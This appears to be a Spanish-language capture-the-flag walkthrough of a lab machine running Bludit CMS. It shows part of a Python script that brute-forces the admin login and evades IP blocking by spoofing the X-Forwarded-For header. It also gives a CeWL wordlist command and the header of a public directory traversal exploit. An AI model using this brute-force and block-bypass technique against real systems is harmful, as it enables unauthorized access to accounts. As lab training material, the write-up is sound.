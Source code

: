 ```python
                'username' : 'fergus',
                'password' : '%s' % password.strip("\n") 
                }

# Usamos estos headers para saltarnos las restricciones de IP Block a nivel web
                headers_login = {

                'User-Agent' : 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
                'Referer' : 'http://10.10.10.191/admin/login',
                'X-Forwarded-For' : '%s' % password.strip('\n')
                }

# Barra de progreso de peticions * passwords
                p1.status("Probando con la password %s" % password.strip("\n"))

# Variable r que es la peticcion HTTP via POST y tramita con los siguientes argumentos
                r = s.post(main_url, data=data_post, headers=headers_login)

# Comprobacion de password correcta
                if "Username or password incorrect" not in r.text:
                        p1.success("La password es %s" % password.strip('\n'))
                        sys.exit(0)

if __name__ == '__main__':

        makeRequest()
```

Con el script listo para ejecutarse, procedemos a crearnos un `diccionario.txt` de las palabras de la web con la herramienta `"CEWL"`
[Uso de CEWL](https://esgeeks.com/como-utilizar-cewl/)
```bash
$ cewl http://10.10.10.191 -w diccionario.txt
``` 
Ejecutamos el script en python3 y nos reporta una password `"RolandDeschain"`

```bash
Buscamos google por BLUDIT CMS y vemos un repositorio de github con mas rutas interesantes como la de “bl-plugins”

 http://10.10.10.191/bl-plugins/backup/metadata.json
									
|                 author |                                                " Bludit" |
| email | "" |
| website | "https://plugins.bludit.com" |
| version | "3.9.2" |
| releaseDate | "2019-06-21" |
| license | "MIT" |
| compatible | "3.9.2" |
| notes | "" |
``` 
Ya tenemos la version del Bludit CMS, y tras una segunda busqueda encontramos este exploit en python3
```python
# Title: Bludit 3.9.2 - Directory Traversal
# Author: James Green
# Date: 2020-07-20
# Vendor Homepage: https://www.bludit.com
# Software Link: https://github.com/bludit/bludit
# Version: 3.9.2
# Tested on: Linux Ubuntu 19.10 Eoan# CVE: CVE-2019-16113
# 
# Special Thanks to Ali Faraj (@InfoSecAli) and authors of MSF Module https://www.exploit-db.com/exploits/47699
```